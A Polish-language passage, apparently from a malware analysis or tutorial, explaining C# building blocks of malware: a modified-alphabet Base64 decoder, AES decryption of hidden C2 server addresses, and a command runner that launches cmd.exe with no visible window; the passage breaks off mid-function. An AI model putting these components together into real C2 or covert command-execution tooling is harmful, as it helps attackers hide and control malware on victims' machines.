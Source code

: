 **Opis:**

- **CustomBase64Decode:** Funkcja dekoduje ciągi zakodowane niestandardowym Base64.
- **Zmodyfikowany alfabet Base64:** Zmiana kolejności znaków w alfabecie Base64 utrudnia dekodowanie bez znajomości klucza.

### 5.2. Dynamiczne Odszyfrowywanie Adresów C2

*Adresy serwerów C2 są przechowywane w zaszyfrowanej formie i odszyfrowywane w czasie rzeczywistym.*

#### Przykład kodu:

```csharp
public string DecryptC2Address(string encryptedData, string key)
{
    using (Aes aes = Aes.Create())
    {
        aes.Key = Encoding.UTF8.GetBytes(key);
        aes.IV = new byte[16]; // Inicjalizacja wektora IV (zero bytes)

        ICryptoTransform decryptor = aes.CreateDecryptor(aes.Key, aes.IV);

        byte[] cipherText = Convert.FromBase64String(encryptedData);
        byte[] plainText = decryptor.TransformFinalBlock(cipherText, 0, cipherText.Length);

        return Encoding.UTF8.GetString(plainText);
    }
}
```

**Opis:**

- **Szyfrowanie AES:** Użycie algorytmu AES z kluczem symetrycznym do zabezpieczenia adresu C2.
- **Inicjalizacja IV:** W tym przypadku wektor IV jest zerowy, co może być słabym punktem i potencjalnym miejscem do ataku.

### 5.3. Wykonywanie Poleceń Asynchronicznych

*Asynchroniczne metody pozwalają na efektywne zarządzanie zadaniami bez blokowania wątków, co jest szczególnie ważne w kontekście malware działającego w tle.*

#### Przykład kodu:

```csharp
public async Task<string> ExecuteCommandAsync(string command)
{
    var process = new Process
    {
        StartInfo = new ProcessStartInfo
        {
            FileName = "cmd.exe",
            Arguments = "/c " + command,
            RedirectStandardOutput = true,
            RedirectStandardError = true,
            UseShellExecute = false,
            CreateNoWindow = true
        }
    };

    process.Start();

    var outputTask = process.StandardOutput.ReadToEndAsync();
    var errorTask = process.StandardError.ReadToEndAsync();

    await Task.WhenAll(outputTask, errorTask);

```